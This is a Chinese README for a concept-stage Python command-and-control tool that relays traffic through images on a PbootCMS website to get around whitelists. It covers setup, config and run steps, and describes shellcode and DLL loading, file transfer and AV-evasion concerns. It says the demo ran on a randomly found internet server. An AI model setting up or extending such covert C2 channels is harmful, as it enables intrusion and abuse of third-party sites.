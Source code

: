 # Pboot_C2_Concept_edition

## 声明

__！！！__  
__禁止恶意攻击，__  
__本项目单纯以学习为目的，__  
__使用前请详细阅读网络安全法，__  
__出现任何非法攻击，由使用者自行承担。__   
__！！！__

## 项目说明
本项目目前为`概念版`，也就是`学习版`，请勿使用在实战中，很多缺点....   

这个项目是以`Pbootcms`为中介(媒介)进行`c2`操作，在某些环境中起到关键作用，例如`白名单`。  

这里只是以`Pbootcms`为例子，实战中请`学会变通`，并不是代表只能使用Pbootcms，这里是以`图片传递消息`，`实用性`，`扩展性`得到提升，但是需要根据实际情况进行更改，例如`上传图片`，网站进行了`压缩，添加水印，裁剪`等等，这时就要根据实际情况更改传输方式，例如`网站评论，私信，个人信息更改`等等地方，进行操作。  

本项目的`服务端`以及`客户端`代码都是以`python`代码编写，在打包为exe上很大缺陷，`文件大`，`特征性强`，持`久性免杀`存在问题。这里如果对其他语言熟悉的话，可以对`client.py` OR `test_client.py`进行重构，例如`GO,C++`，后续有时间也会更新项目，将`client`部分代码用其他语言进行重构。  

在`client.py`代码中写了一些`类似插件`的代码,如`shellcode加载，dll加载，上传文件，下载文件`,当然这样写可能是有问题的，所以目前该项目为`概念版`，单纯做了个`简单的框架`，后续会`进行重写`。  

## 项目使用

### pip安装
```bash
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple/
```
如果缺失第三方包，请自行pip安装

### 服务端config.py配置
```
# ip或者域名,需要对应上
domian=[
    {"IP":"http://127.0.0.1:88",
     "PHPSESSID":"2mj9qepq0bntlrh6j6lb2cq529",
     "passwd":"admin"
     }
]

# 加密密钥
key="suanpro"

# 时间延迟
slepp=0

# 证书验证
https=False
```
`domian` 只需要在列表内添加一个跟示例里的字典即可  

`IP` 代表cms服务器的主域   

`PHPSESSID` 代表cms内`cookie`里面`PbootSystem`的值

`passwd` 为登录cms的`密码`,`Pbootcms`支持用户注册，如若关闭了注册功能，换一个就好。  

`key` 代表进行xor操作的密钥，随便更改。 

`slepp` 暂时不用管，该功能还没有添加  

`https` 暂时不用管，该功能还没有添加  

__如果设置了多个domain：__  
这里本来是想弄成`msf`一样，但是没有时间，所以就搁置了  
在`run.py`的第七行中`demo = ip_list[0]`,使用那个就改这个`0`就行，`0`表示第一个，`1`表示第二个

### 客户端配置
在`test_client.py或者client.py`的最下面一行代码
```python
suansuan("http://127.0.0.1:81","4alq0oq5tup61soak268civ9ae","suanpro","admin")
```
分别代表 IP，PHPSESSID，key，passwd  
这几个参数不懂，看上面说明  

### 启动服务端
```bash
python run.py
```

### 启动服务端

随便哪个都行  
```bash
python client.py
```

```bash
python test_client.py
```

### 注意事项

如果使用途中，`Pbootcms`自动退出登录，可以使用`火狐，配一个burp代理`访问该网站，这样就不会自动退出，导致运行失败。

### 使用示例  
这里是随机互联网找的一个安装了`Pbootcms`的服务器  

![Alt text](image/image.png)


### 最后

代码都写了很详细的注释，感兴趣的可以接着写，但是建议使用其他语言写。  

单纯学习的话够了。